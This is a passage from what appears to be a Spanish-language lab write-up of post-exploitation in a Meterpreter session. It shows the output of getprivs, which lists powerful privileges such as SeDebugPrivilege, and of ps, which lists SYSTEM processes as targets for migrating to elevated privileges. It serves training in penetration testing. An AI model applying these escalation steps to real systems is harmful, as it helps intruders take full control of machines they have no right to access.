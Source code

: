 ### Verificación de privilegios

Con el comando `getprivs` se listaron los privilegios disponibles en el proceso:

```bash
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

estos son los privilegios que tenemos  

## Migración a un proceso con privilegios elevados

Tras revisar la lista de procesos activos con el comando `ps` en Meterpreter:

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 100   604   conhost.exe           x64   1        Dark-PC\Dark                  C:\Windows\System32\conhost.exe
 348   1284  powershell.exe        x86   1        Dark-PC\Dark                  C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 500   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 544   536   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 560   692   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
```